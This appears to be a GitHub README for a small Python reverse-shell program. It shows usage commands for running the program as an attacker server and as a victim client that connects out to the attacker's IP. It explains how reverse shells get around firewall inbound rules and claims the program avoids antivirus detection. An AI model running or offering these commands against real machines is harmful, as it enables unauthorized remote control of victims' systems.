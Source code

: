 

# Sample Demo:
![Alt Text](https://github.com/heecheon92/Reverse_shell/blob/master/rshell_demo.png)

# How to Use?

You can run this program either as a server (attacker) or client (victim)

## To run as a server:
```
  python3 rshell.py -m server -p port_number
```
## To run as a client:
```
  python3 rshell.py -m client -t server_ip_address -p server_port_number
```
# Well, so how does it work?

Server program opens up an accessible port.

Once the server program is running, client program can be executed to connect to the port hosted by the server.

Unlike normal shells or also known as "bind shell", in which an innocent server simply allow an user to connect and the malicous user client can send payloads to attack the server node, in reverse shell, the server program acts as a malicous endpoint and allows the server to execute shell commands to a client.

In most network environment, it is a common practice that in-bound policy is set to be strict to prevent malicous actions to be done and typically, out-bound policy is set to be loose so that users within the network can freely traverse the endpoints outside of the firewall.

Due to this environment, exploitation by bind shell is not really easily acheiveable.

However, since the attcker is the server so that the in-bound policy can be set relatively loosely or set with no in-bound policy at all so that client can easily access to the server, implementing reverse shell is very effective to control a remote node.

All communication between the server and the client is not secure and can be easily detected by network monitoring tools like Wireshark. I am planning to add a security layer.



## Bind Shell:
```
Server (Victim) ---------|Firewall|<<---------Client (Attacker)
```
It is easy to fail to make connection if an out-bound policy of firewall is well set.

## Reverse Shell:
```
Server (Attacker) -------NO-FIREWALL <<------------Client (Victim)
```
Attacker set no in-bound policy so that victims can freely connect to the trap server.

So, a reverse shell is just a shell that exploits common firewall's nature.

Again, even though this is a very simple program, it won't be detected by an anti-virus software as a threat.

So, DO NOT USE TO HARM OTHER ENDPOINTS.


# A Very Long Disclaimer: 

I am not responsible for any real / potential damage caused by the use of this project

I am not a professional penetration tester.

However, I do find network/socket programming very attractive and based on what I learned from

network class in college and socket programming I picked up from somewhere, I have made this little sneaky programs.

Just because I like to understand about penetration testing, it does not mean I would like to relentlessly abuse well known tools or frameworks (such as metasploit....veil....sqlmap.....hashcat.....etc). Instead, I wanted to try making my own script and see what I can do. I am not saying those penetration tools are bad. In fact, I get amazed how well they are automated to attack mutliple victim nodes. I just do not want to solely rely on them.




